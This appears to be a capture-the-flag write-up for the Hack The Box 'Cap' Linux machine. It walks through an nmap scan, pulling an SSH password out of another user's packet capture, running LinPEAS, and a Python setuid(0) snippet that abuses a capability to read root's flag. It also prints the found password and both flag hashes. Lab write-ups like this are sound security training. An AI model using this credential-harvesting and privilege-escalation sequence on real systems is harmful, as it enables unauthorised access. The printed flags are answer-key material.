



# Cap

- Link : https://app.hackthebox.com/machines/cap
- Release date : 05.06.2021
- OS : Linux
- Difficulty : Easy
- Points : 0

## Tools

- nmap
- ssh

## Exploitation

### Finding the first flag

```bash
nmap -sS 10.10.10.245
```

We can access other people's scans.



Download the `.pcap` file and open it with Wireshark to find the password.



Then, we can ssh into the machine as `nathan` using the password ` k3tH4TF0RM3!`.

```bash
ssh nathan@10.10.10.245
```

And get the first flag.

```bash
cat user.txt
```

**First flag** : `c84dfa557878a7cda7044eb800a673c3`

### Finding the second flag

Run LinPEAS on the target.

```bash
scp linpeas.sh nathan@10.10.10.245:/home/nathan
```

```bash
./linpeas.sh
```

There is a python executable with the capability to set user ID on execution.



Run the following.

```python
import os
os.setuid(0)
os.system("cat /root/root.txt")
```

**Second flag** : `a35ab145a41120bb748a3ec810d9cc29`